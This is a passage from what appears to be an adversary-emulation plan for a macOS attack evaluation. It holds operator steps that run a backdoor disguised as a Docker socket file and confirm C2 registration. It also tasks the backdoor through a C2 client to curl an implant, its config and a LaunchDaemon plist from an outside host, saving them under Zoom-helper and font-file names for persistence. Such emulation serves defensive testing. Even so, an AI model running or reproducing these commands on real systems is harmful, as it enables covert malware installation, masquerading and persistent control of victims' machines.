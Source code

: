   * The above resolves to:
    * `com.docker.sock` - FULLHOUSE.DOORED binary
    * `com.docker.sock.lock` - FULLHOUSE.DOORED configuration file

* Check using Finder to see if the files were downloaded successfully

* Proceed with
[Ruby script failed to execute FULLHOUSE.DOORED](./AlternativeSteps.md#ruby-script-failed-to-execute-fullhousedoored)

### Ruby script failed to execute FULLHOUSE.DOORED

#### :biohazard: Tier 1 Procedures

* Change directory into `/usr/local/bin` and execute FULLHOUSE.DOORED

    ```zsh
    cd /usr/local/bin
    chmod 0755 com.docker.sock
    ./com.docker.sock
    ```

* :arrow_right: On Kali, confirm C2 registration of FULLHOUSE.DOORED

* :arrow_right: On the Mac VNC session, close the Terminal and disconnect from
the session

## Step 2 - Persistence

### FULLHOUSE.DOORED failed/unavailable to download STRATOFEAR

#### :biohazard: Tier 1 Procedures

* If FULLHOUSE.DOORED **is** available:
  * Task FULLHOUSE.DOORED to download STRATOFEAR to `hogshead (10.55.4.50)` using
  `curl`:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "curl --output \"/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool\" http://b0ring-t3min4l.kr/files/stratofear"}'
    ```

  * Task FULLHOUSE.DOORED to download STRATOFEAR's configuration file to
`hogshead (10.55.4.50)` using `curl`:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "curl --output \"/Library/Fonts/pingfang.ttf.md5\" http://b0ring-t3min4l.kr/files/pingfang.ttf.md5"}'
    ```

  * Task FULLHOUSE.DOORED to download STRATOFEAR's LaunchDaemon plist file to
`hogshead (10.55.4.50)` using `curl`:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "curl --output \"/Library/LaunchDaemons/us.zoom.ZoomHelperTool.plist\" http://b0ring-t3min4l.kr/files/startofear_launchd.plist"}'
    ```
